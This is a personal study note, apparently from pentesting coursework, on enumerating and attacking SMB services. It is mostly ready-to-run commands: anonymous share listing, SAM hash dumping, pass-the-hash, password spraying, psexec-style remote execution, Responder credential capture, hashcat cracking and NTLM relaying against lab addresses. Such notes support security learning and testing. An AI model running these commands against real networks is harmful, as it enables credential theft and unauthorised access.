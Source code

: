 ```yaml
---
date: '2023-03-29'
before : '2023-03-27'
after : '2023-04-01'
title: 'Enumerating & Abusing SMB'
categories: ['C-SEC', 'ENG', 'Network']
summary: 'Enumerating & Abusing SMB Service'
thumbnail: '../contentImages/network/2.png'
---
```


# SMB

<aside>
💡 2/8 of Basic Network Services

</aside>

## 1. Information about SMB

- Normally TCP port 137,138,139 or 445(windows)
- In windows commonly MSRPC
- Typical Misconfiguration : anonymous authentication

```bash
smbclient -N -L //10.129.14.128 : anonymous
```

## 2. Interaction, Enumeration

```bash
smbmap -H 10.129.14.128 -r notes : show the folder notes
smbmap -H 10.129.14.128 --download "notes\note.txt" : download something
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt" : upload something
```

```bash
rpcclient -U'%' 10.10.110.17
```

- SMB Interaction Cheat Sheet
    
    [](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
    
- Enum4linux

```bash
./enum4linux-ng.py 10.10.11.45 -A -C
```

- Extracting Hashes /PtH

```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## 3. Brute Forcing

```bash
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' : password spraying
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users 
```

## 4. Remote Code Execution

```bash
impacket-psexec administrator:'Password123!'@10.10.110.17
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

## 5. Forced Authentication with Responder

### What is Responder?

Responder is a powerful open-source tool used for performing network analysis and attacks on Microsoft Windows-based systems.

Responder works by listening to traffic on the network and responding to various types of network traffic to capture authentication credentials.

To use Responder, you need to first download and install it on a computer that is connected to the network you wish to analyze.

### Process

used by attackers who have already gained access to a network and are attempting to move laterally to other system

1. Install Responder on target System
- The hostname file share's IP address is required
- The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
- If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names
- Is there no local DNS record? A query will be sent to the DNS server that has been configured.
1. Execute Responder

```bash
sudo responder -I ens33
```

1. Crack captured Hashes

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

1. Pass the Hash or NLTM Replay

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

## 6. Common CVE

- CVE-2017-0143 (SMBv1)
- CVE-2020-0796 (SMBv3)
- CVE-2017-0144 (SMBv1)
- CVE-2018-0802 (connected with MS Word, Exel and Outlook)
- CVE-2019-0708 (BlueKeep)
- Eternal Blue (based on buffer overflow)

## Source

- Me!
